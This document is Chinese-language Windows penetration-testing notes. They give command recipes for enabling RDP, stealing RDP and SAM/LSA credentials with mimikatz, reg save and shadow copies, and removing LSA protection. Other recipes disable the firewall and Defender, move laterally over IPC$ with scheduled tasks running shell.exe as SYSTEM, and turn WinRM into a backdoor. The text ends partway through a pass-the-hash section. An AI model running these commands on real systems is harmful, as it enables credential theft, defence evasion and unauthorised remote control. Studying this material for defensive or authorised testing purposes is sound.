# Windows 安全

> 注 : 笔记中拓扑图 drawio 源文件在其图片目录下

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 大纲

* **[漏洞利用](#漏洞利用)**

* **[LOL](#LOL)**

* **[RDP](#rdp)**
    * [命令行开启RDP](#命令行开启rdp)
    * [多开](#多开)
    * [连接记录](#连接记录)
    * [凭据窃取](#凭据窃取)
    * [绕过组策略限制](#绕过组策略限制)
    * [绕过本地安全策略限制限制](#绕过本地安全策略限制限制)

* **[认证](#认证)**
    * [本地](#本地)
        * [lsass dump](#lsass-dump)
        * [SAM & LSA Secrets](#sam--lsa-secrets)
        * [加密降级攻击](#加密降级攻击)
        * [Bypass LSA Protection](#bypass-lsa-protection)
        * [Bypass Credential Guard](#bypass-credential-guard)
        * [DPAPI](#dpapi)
        * [NTLM反射](#NTLM反射)
    * [工作组](#工作组)
        * [IPC$](#ipc)
        * [PTH](#pth)
            * [kb2871997](#kb2871997)
            * [PTH with RDP](#pth-with-rdp)
        * [PTK](#ptk)
    * [域](#域)
        * [NTDS.DIT](#ntdsdit)
            * [NTDS转储](#ntds转储)
            * [Dcsync](#dcsync)
            * [卷影复制](#卷影复制)
        * [mscash](#mscash)
        * [GPP](#gpp)
        * [PTT](#ptt)
            * [Silver_Tickets](#silver_tickets)
            * [Golden_Tickets](#golden_tickets)
        * [NTLM中继](#NTLM中继)
        * [NTLMv1 攻击面](#ntlmv1-攻击面)
        * [Kerberoasting](#kerberoasting)
        * [委派](#委派)
            * [查找域中委派主机或账户](#查找域中委派主机或账户)
            * [非约束委派 (TrustedForDelegation)](#非约束委派-trustedfordelegation)
            * [约束委派 (S4U2Proxy) / 协议转换 (S4U2Self/TrustedToAuthForDelegation)](#约束委派-s4u2proxy--协议转换-s4u2selftrustedtoauthfordelegation)
            * [基于资源的约束委派 (RBCD)](#基于资源的约束委派-rbcd)
        * [Kerberos Bronze Bit Attack](#kerberos-bronze-bit-attack)

* **[对抗](#对抗)**
    * [AMSI](#amsi)
    * [ETW](#etw)
    * [UAC](#uac)
    * [DLL 劫持](#dll-劫持)
    * [PatchGuard](#patchguard)
    * [Hook](#hook)
    * [D/Invoke](#dinvoke)

* **[BitLocker](#bitlocker)**

* **[Windows Defender](#windows-defender)**

---

## 漏洞利用

- [OS-Exploits](./OS-Exploits.md#Windows)

---

## LOL

- [Windows-LOL](./实验/Windows-LOL.md)

---

## RDP

**第三方连接工具**
- [rdesktop/rdesktop](https://github.com/rdesktop/rdesktop)
    - kali 自带,使用方法 : `rdesktop [ip]`
- [Remmina](https://remmina.org/)
- [FreeRDP/FreeRDP](https://github.com/FreeRDP/FreeRDP)

### 命令行开启RDP

**相关文章**
- [开启 RDP](https://b404.xyz/2017/12/27/open-RDP/)
- [查询和开启3389端口方式总结](https://mp.weixin.qq.com/s/hgGcoEghsW0IIh7r-YCKCg)

**查看 3389 端口是否开启**
```bash
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /*如果是0x0则开启
```



**查看远程连接的端口**
```bash
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```



tasklist、netstat 命令查询 3389 端口
```
tasklist /svc | findstr "TermService"
netstat -ano | findstr "xxx"
```

**cmd 开 RDP**
- REG 开启
    1. 方法一 : `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

    2. 方法二 : `REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`

- REG 关闭

    - `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000001 /f`

- WMIC 开启 3389
    ```
    wmic /namespace:\\root\CIMV2\TerminalServices PATH Win32_TerminalServiceSetting WHERE (__CLASS !="") CALL SetAllowTSConnections 1
    wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
    ```

- WMIC 开启远程主机 3389 端口
    Win2k/XP/Win2k3
    ```
    wmic /node:192.168.1.1 /user:administrator /password:123123 PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1
    ```

    Win7/Win2k8/Win8.1/Win10/2012/2016
    ```
    wmic /node:192.168.1.1 /user:administrator /password:123123 RDTOGGLE WHERE ServerName='WIN-TO2CN3V2VPR' call SetAllowTSConnections 1
    wmic /node:192.168.1.1 /user:administrator /password:123123 process call create 'cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
    ```

- PowerShell 开启 RDP
    1. Enable RDP : `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0`

    2. Allow RDP in firewall : `Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true`

    3. Enable secure RDP authentication : `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1`

    或

    1. Enable Remote Desktop : `(Get-WmiObject Win32_TerminalServiceSetting -Namespace root\cimv2\TerminalServices).SetAllowTsConnections(1,1) `
        `(Get-WmiObject -Class "Win32_TSGeneralSetting" -Namespace root\cimv2\TerminalServices -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0) `

    2. Enable the firewall rule : `Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

- MSSQL xp_regwrite 开启 3389 端口

    1. 查询3389开启状态 : `exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server' ,'fDenyTSConnections'`

    2. 查询3389远程桌面端口 : `exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber' `

    3. 开启3389远程桌面端口（0：ON、1：OFF）: `exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;`

- reg 开启
    ```
    Windows Registry Editor Version 5.00
    [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
    "fDenyTSConnections"=dword:00000000
    [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
    "PortNumber"=dword:00000d3d
    ```
    ```
    regedit /s a.reg
    ```

- msf
    ```
    run getgui -e
    ```

- 更改终端端口为 2008(十六进制为:0x7d8)

    1. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`
    2. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

- 查看 RDP 服务端口是否更改
    ```
    REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  /*出来的结果是 16 进制
    ```

- 允许 3389 端口
    ```
    netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
    ```

- 关闭防火墙
    ```
    netsh advfirewall set allprofiles state off
    ```

- 关闭 Denfnder
    ```
    net stop windefend
    ```

- 取消 xp&2003 系统防火墙对终端服务的限制及 IP 连接的限制:
    ```
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f
    ```

---

### 多开

**相关文章**
- [Win7 双开 3389](https://blog.csdn.net/SysProgram/article/details/11810889)
- [渗透技巧——Windows 系统远程桌面的多用户登录](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E7%9A%84%E5%A4%9A%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95/)
- [Multi-User login in Windows 7/Vista/XP using Remote Desktop](http://zahirkhan.com/tools-utilities/multi-user-login-in-windows-7)

**相关工具**
- [stascorp/rdpwrap](https://github.com/stascorp/rdpwrap) - RDP Wrapper Library

- mimikatz
    ```
    privilege::debug
    ts::multirdp
    ```

- Windows Server
    ```
    win+R
    gpedit.msc
    计算机配置->管理模板->Windows 组件->远程桌面服务->远程桌面会话主机->连接
    将 "将远程桌面服务的用户限制到单独的远程桌面会话" 禁用
    ```

---

### 连接记录

**查看远程连接信息**

通过查询注册表查看当前用户远程连接过的桌面
```
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```

**相关文章**
- [渗透技巧——获得 Windows 系统的远程桌面连接历史记录](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E8%BF%9E%E6%8E%A5%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95/)
- [关于 windows 的 RDP 连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)
- [How to Clear RDP Connections History in Windows](http://woshub.com/how-to-clear-rdp-connections-history/#h2_3)
- [RDP 登录日志取证与清除](https://paper.seebug.org/1043/)

**相关工具**
- [3gstudent/List-RDP-Connections-History](https://github.com/3gstudent/List-RDP-Connections-History) - 使用 powershell 列出已登录用户或所有用户的 RDP 连接历史记录
- [Heart-Sky/ListRDPConnections](https://github.com/Heart-Sky/ListRDPConnections) - C# 读取本机对外 RDP 连接记录和其他主机对该主机的连接记录
- [Adminisme/SharpRDPLog](https://github.com/Adminisme/SharpRDPLog) - Windows rdp相关的登录记录导出工具，可用于后渗透中Windows服务器的信息收集阶段。输出内容包括：本地rdp端口、mstsc缓存、cmdkey缓存、登录成功、失败日志事件。

**登录成功的日志**
- 事件ID 4624

**登录失败的日志**
- 事件ID 4625

---

### 凭据窃取

**相关文章**
- [获取远程主机保存的 RDP 凭据密码](https://0x20h.com/p/bf1f.html)
- [解密目标系统RDP连接密码](https://www.jianshu.com/p/6c11412947e5)

**相关工具**
- [hmoytx/RdpThief_tools](https://github.com/hmoytx/RdpThief_tools) - 窃取 mstsc 中的用户明文凭据
- [0x09AL/RdpThief](https://github.com/0x09AL/RdpThief) - Extracting Clear Text Passwords from mstsc.exe using API Hooking.
- [mimikatz](../../安全工具/mimikatz.md#dpapi)

---

### 绕过组策略限制

**相关文章**
- [组策略限制3389登录的绕过方式](https://mp.weixin.qq.com/s/4eDNmiiXp7afLKdYzHeb3Q)

**修改本地组策略**
```
secedit /export /cfg c:\gp.inf /quiet                     //导出组策略
```

编辑 c:\gp.inf,删除指定策略,在导入
```
secedit /configure /db c:\gp.sdb /cfg c:\gp.inf /quiet      //导入组策略
gpupdate /force                                             //更新组策略
```

策略举例
- 拒绝本地登录：

    说明：此安全设置确定要防止哪些用户在该计算机上登录。如果帐户受制于此策略设置和“允许本地登录”策略设置，则前者会取代后者。
    ```
    SeDenyInteractiveLogonRight = Guest
    ```
- 拒绝通过远程桌面服务登录：

    说明：此安全设置确定禁止哪些用户和组作为远程桌面服务客户端登录。
    ```
    SeDenyRemoteInteractiveLogonRight = Administrator
    ```
- 允许本地登录：

    说明：确定哪些用户可以登录到该计算机。
    ```
    SeInteractiveLogonRight = *S-1-5-32-544,*S-1-5-32-545,*S-1-5-32-551
    *S-1-5-32-544：Administrators
    *S-1-5-32-545：Users
    *S-1-5-32-551：Backup Operators
    ```
- 允许通过远程桌面服务登录：

    说明：此安全设置确定哪些用户或组具有作为远程桌面服务客户端登录的权限。
    ```
    SeRemoteInteractiveLogonRight = *S-1-5-32-544,*S-1-5-32-555
    *S-1-5-32-544：Administrators
    *S-1-5-32-555：Remote Desktop Users
    ```

---

### 绕过本地安全策略限制限制

**相关文章**
- [IP安全策略限制3389登录的绕过方式](https://mp.weixin.qq.com/s/FMGqJx0GbhxXfdnFS929zQ)

**解决方案**
- 本地端口转发
- 删除所有安全策略
    ```
    netsh ipsec static del all
    ```

---

## 认证

关于 windows 认证的基本知识点可见笔记 [认证](../../../Integrated/Windows/笔记/认证.md)

**学习资源**
- [daikerSec/windows_protocol](https://github.com/daikerSec/windows_protocol)
- [The NTLM Authentication Protocol and Security Support Provider](http://davenport.sourceforge.net/ntlm.html)

### 本地

**相关文章**
- [几种windows本地hash值获取和破解详解](https://www.secpulse.com/archives/65256.html)
- [Windows密码抓取总结](https://times0ng.github.io/2018/04/20/Windows%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96%E6%80%BB%E7%BB%93/)
- [深刻理解windows安全认证机制](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)
- [Windows用户密码的加密方法与破解](https://www.sqlsec.com/2019/11/winhash.html#toc-heading-2)
- [Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/)
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [抓取HASH的10001种方法](https://mp.weixin.qq.com/s/6mwms9LtLE6cK0ukpoSMmg)
- [凭据收集总结](https://my.oschina.net/csxa/blog/4343803)
- [Bypass LSA Protection&Credential Guard获取密码](https://xz.aliyun.com/t/6943)
- [Windows下的密码hash——Net-NTLMv1介绍](https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-Net-NTLMv1%E4%BB%8B%E7%BB%8D/)
- [Internal Monologue Attack - Retrieving NTLM Hashes without Touching LSASS (Repost)](https://shenaniganslabs.io/2019/01/14/Internal-Monologue.html)
- [Credential Dumping: Local Security Authority (LSA|LSASS.EXE)](https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/)

**相关工具**
- Hashcat
    - [Hashcat 爆破NTLM-hash](../../安全工具/Hashcat.md#爆破NTLM-hash)
    - [Hashcat 爆破net-NTLMv2](../../安全工具/Hashcat.md#爆破net-NTLMv2)
- [AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne) - 凭证抓取神器
- [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump) - 从 Credential Manager 中转储 Windows 凭证的 PowerShell 脚本
    ```
    set-executionpolicy remotesigned
    import-module .\Invoke-WCMDump.ps1
    invoke-wcmdump
    ```
- [SterJo Key Finder](https://www.sterjosoft.com/key-finder.html) - 找出系统中软件的序列号
- [impacket](https://github.com/SecureAuthCorp/impacket)
- [evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) - NTLMv1 Multitool
- [mimikatz](../../安全工具/mimikatz.md)

#### lsass dump

**直接转储(Task Manager)**
- [直接转储(Task Manager)](../../安全工具/mimikatz.md#直接转储task-manager)

**ProcDump**
- [ProcDump](../../安全工具/mimikatz.md#procdump)

**SharpDump**
- [SharpDump](../../安全工具/mimikatz.md#sharpdump)

**ComSvcs.dll**
- [ComSvcs.dll](../../安全工具/mimikatz.md#comsvcsdll)

**ProcDump**
- [ProcDump](../../安全工具/mimikatz.md#procdump)

**windbg 中载入 mimilib 模块**
- [windbg 中载入 mimilib 模块](../../安全工具/mimikatz.md#windbg-中载入-mimilib-模块)

**LsassSilentProcessExit**
- [LsassSilentProcessExit](../../安全工具/mimikatz.md#lsasssilentprocessexit)

**LSASS Shtinkering**
- [LSASS Shtinkering](../../安全工具/mimikatz.md#lsass-shtinkering)

**HandleKatz**
- [HandleKatz](../../安全工具/mimikatz.md#handlekatz)

---

#### SAM & LSA Secrets

在 Windows 系统中本机的用户密码以 hash 形式存储在 `%SystemRoot%\system32\config\sam` 数据库文件中。

LSA Secrets 存储 PC 用户的文本密码、服务账户密码（例如，必须由某个用户运行才能执行某些任务的密码）、Internet Explorer 密码、RAS 连接密码、SQL 和 CISCO 密码、SYSTEM 账户密码、EFS 加密密钥等用户私人数据等等。

LSA Secrets 存储在注册表中：
```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

**mimikatz**
```
token::elevate
lsadump::secrets
```

**注册表 dump**

> 注意：本地复原机器必须与目标机器一致，且需要在系统权限下执行

```
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
reg save HKLM\SECURITY security
```

使用 impacket
```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

或mimikatz 获取用户 hash
```bash
lsadump::sam /system:system.hiv /sam:sam.hiv /security:security.hiv
```



**卷影复制**

```bash
wmic shadowcopy call create volume='c：\'       # 先创建 c 盘的 shadowscopy
# 或者
vssadmin create shadow /for=C:

vssadmin list shadows   # 查看
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\sam c:\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\security c:\security
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system c:\system

# 用 impacket-secretsdump 来进行解密
impacket-secretsdump -sam sam -security security -system system LOCAL
```



---

#### 加密降级攻击

`NetNTLM Downgrade Attacks`

**描述**

NetNTLM Downgrade Attacks, 通过 SSPI 调⽤ NTLM 身份验证，通过协商使⽤预定义 challenge 降级为 NetNTLMv1，获取到 NetNTLMv1 hash。⽽ NetNTLMv1 hash 可以短时间内使⽤彩虹表去破解。这种情况可以在不接触 LSASS 的情况下检索 NTLM 哈希。可以说比运行 Mimikatz 更隐秘，因为不需要向受保护的进程注入代码或从受保护的进程中转储内存。由于 NetNTLMv1 响应是通过在本地与 NTLMSSP 进行交互而引发的，因此不会生成网络流量，并且所选择的挑战也不容易看到。没有成功的 NTLM 身份验证事件记录在日志中。

**相关文章**
- [Post Exploitation Using NetNTLM Downgrade Attacks](https://www.optiv.com/explore-optiv-insights/blog/post-exploitation-using-netntlm-downgrade-attacks)

**相关工具**
- [eladshamir/Internal-Monologue](https://github.com/eladshamir/Internal-Monologue)
    ```
    InternalMonologue -Downgrade False -Restore False -Impersonate True -Verbose False -Challenge 1122334455667788
    ```

    

    如果以普通用户权限执行 InternalMonologue，能够获得当前用户权限的 Net-NTLMv2 数据包，通过 hashcat 进行破解，能获得当前用户的明文口令

---

#### Bypass LSA Protection

1. 从磁盘上的 SAM 读取凭据
2. mimikatz 其中的 mimidrv.sys 驱动程序，可从 lsass.exe 进程中删除 LSA 保护，成功 pypass LSA Protection。
    ```
    privilege::debug
    !+
    !processprotect /process:lsass.exe /remove
    sekurlsa::logonpasswords
    ```

    

---

#### Bypass Credential Guard

**描述**

SSP 是参与用户身份验证的 Microsoft 软件包，如在用户登录时被调用，并接收该用户的凭据。在系统启动时 SSP 会被加载到进程 lsass.exe 中。

Mimikatz 可通过内存安装自定义的 ssp，修改 lsass 进程的内存，实现从 lsass 进程中提取凭据，mimikatz 执行 misc::memssp 后，如果再输入了新的凭据 (如用户锁屏后重新登录)，将会在 c:\windows\system32 下生成文件 mimilsa.log，其中保存有用户明文密码。
```
privilege::debug
misc::memssp
```

**相关文章**
- [Revisiting a Credential Guard Bypass](https://itm4n.github.io/credential-guard-bypass/)
    - https://github.com/itm4n/Pentest-Windows/tree/main/CredGuardBypassOffsets

---

#### DPAPI

由于功能需求，Dpapi 采用的加密类型为对称加密，所以只要找到了密钥，就能解开物理存储的加密信息了。

**相关文章**
- [通过Dpapi获取Windows身份凭证](https://www.lz1y.cn/2019/10/08/%E9%80%9A%E8%BF%87Dpapi%E8%8E%B7%E5%8F%96Windows%E8%BA%AB%E4%BB%BD%E5%87%AD%E8%AF%81/)
- [渗透技巧——获取Windows系统下DPAPI中的MasterKey](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%8F%96Windows%E7%B3%BB%E7%BB%9F%E4%B8%8BDPAPI%E4%B8%AD%E7%9A%84MasterKey/)

**相关工具**
- [mimikatz](../../安全工具/mimikatz.md#dpapi)

**延长 MasterKey 的有效期**
```c
#include <windows.h>
int main(void)
{
	SYSTEMTIME st={0};
	FILETIME   ft={0};
	printf("[+]Start to change expiry time...\n");
	st.wYear = 2025;
	st.wMonth = 12;
	st.wDay = 30;
	st.wHour = 12;
	st.wMinute = 30;
	st.wSecond = 30;
	printf("[+]New expiry time:%d-%d-%d %d:%d:%d\n", st.wYear, st.wMonth, st.wDay, st.wHour, st.wMinute, st.wSecond);
	SystemTimeToFileTime(&st,&ft);
	printf("dwLowDateTime:%08x\n",ft.dwLowDateTime);
	printf("dwHighDateTime:%08x\n",ft.dwHighDateTime);

	FILE *fp;
    fopen_s(&fp,"Preferred","rb+");
	fseek(fp,16,SEEK_SET);
    fwrite(&ft.dwLowDateTime,sizeof(int),1,fp);
	fwrite(&ft.dwHighDateTime,sizeof(int),1,fp);
	fclose(fp);
	printf("[+]Change success.\n");
	return 0;
}
```



---

#### NTLM反射

- [NTLM反射](./实验/NTLM中继.md#ntlm-反射)

---

### 工作组

#### IPC$

关于 IPC$ 应用的基本知识点可见笔记 [IPC$](../../../Integrated/Windows/笔记/IPC$.md)

**相关文章**
- [IPC$入侵大全](https://www.cnblogs.com/backlion/p/7401609.html)
- [内网渗透 | 基于IPC的横向移动](https://sec.thief.one/article_content?a_id=033847e03bd6e49dbc730c7315d5b4d6)
- [关于IPC和PTH用户权限问题](https://ares-x.com/2020/03/10/%E5%85%B3%E4%BA%8EIPC%E5%92%8CPTH%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90%E9%97%AE%E9%A2%98/)
- [Windows的IPC$共享学习](https://mp.weixin.qq.com/s/QEAgpvit3n7MMhRWosArMA)

**IPC$ 的利用条件**

- 139，445 端口开启
- 管理员开启了默认共享

**攻击方式**

空连接 (权限低)
```bash
net use \\192.168.1.1\ipc$ /u:"" ""
net use \\192.168.1.1\c$  "" /user:administrator              # 空连接，无密码
```

非空连接
```bash
# 普通用户权限建立时,仅能查看时间
net time \\192.168.1.1

# 管理员权限
net use \\192.168.1.1\c$ “12345@12345qw” /user:ffffffff0x\administrator
net use \\192.168.1.1\c$ /del   # 删除建立的 IPC 连接
net use                         # 查看本机连接共享情况
dir \\192.168.1.1\c$\Users      # 查看远程文件
net use k: \\192.168.1.1\c$ /u:"administrator" "Admin@admin"    # 远程盘映射到本地
tasklist /S 192.168.1.1 /U administrator -P Admin@admin         # 查看进程
copy test.txt \\192.168.1.1\c$                               # 将指定文件拷贝到目标系统中

# 执行定时任务
# at命令：只适用于win xp、2003等低版本：at 命令是Windows自带的用于创建计划任务的命令，但是 at 命令只在2003及以下的版本使用
net use  \\192.168.1.1  /u:"administrator"  "Admin@admin"
copy shell.exe \\192.168.1.1\c$ # 拷贝shell
net time \\192.168.1.1          # 查看目标时间
at \\192.168.1.1  11:11:00 cmd.exe /c "c:\shell.exe"

# schtasks 命令：Windows Vista、Windows Server 2008及之后版本
net use  \\192.168.1.1  /u:"administrator"  "Admin@admin"
copy shell.exe \\192.168.1.1\c$ # 拷贝shell
net time \\192.168.1.1          # 查看目标时间
schtasks /create /s 192.168.1.1 /u administrator /p Admin@admin /tn test_sch /tr c:/shell.exe  /sc once /st 11:11
# /s 目标 /u 用户名 /p 密码  /tn 计划任务名  /tr 指定文件路径   /sc 执行次数 或频率   /st 开始时间
schtasks /query  /s 192.168.1.1 /u administrator /p Admin@admin  /tn test_sch   # 查看任务计划
schtasks /delete /s 192.168.1.1 /u administrator /p Admin@admin /tn test_sch    # 删除任务计划

# 在目标主机上创建一个名为 test_sch 的计划任务，启动程序为c:/shell.exe ，启动权限为system，启动时间为每隔一小时启动一次
schtasks /create /s 192.168.1.1 /u administrator /p Admin@admin /tn test_sch /sc HOURLY /mo 1 /tr c:/shell.exe /ru system /f
schtasks /run /s 192.168.1.1 /u administrator /p Admin@admin /i /tn test_sch    # 启动该计划任务
```

---

#### WinRM

关于 WinRM 的基本知识点可见笔记 [WinRM](../../../Integrated/Windows/笔记/WinRM.md)

cmd 下,本地也配置允许任意机器连接,然后访问远程主机 winrm
```
Winrm quickconfig
winrm set winrm/config/client @{TrustedHosts="*"}
winrs -r:http://192.168.1.1:5985 -u:administrator -p:Abcd12345 ipconfig
```

在 IIS 监听 80 端口的情况下，可以通过设置 WinRM 监听端口为 80，再设置监听 URI 的方式来复用 80 端口。以此作为隐蔽的后门。

---

#### PTH

path-the-hash,中文直译过来就是 hash 传递，在域中是一种比较常用的攻击方式。

利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器，扩展权限。

**相关文章**
- [hash传递攻击研究](http://sh1yan.top/2019/05/19/Hash-Passing-Attack-explore/)
- [Passing-the-Hash to NTLM Authenticated Web Applications](https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/) - PTH 在 Web 应用中的应用
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)
- [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
- [【技术分享】从hash传递攻击谈相关Windows安全机制](https://www.anquanke.com/post/id/85995)
- [内网各端口hash传递技巧](https://mp.weixin.qq.com/s/IHnbeGoaSwHfWwomHZHcdQ)

**攻击适用情况**
- 在工作组环境中：
    - Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
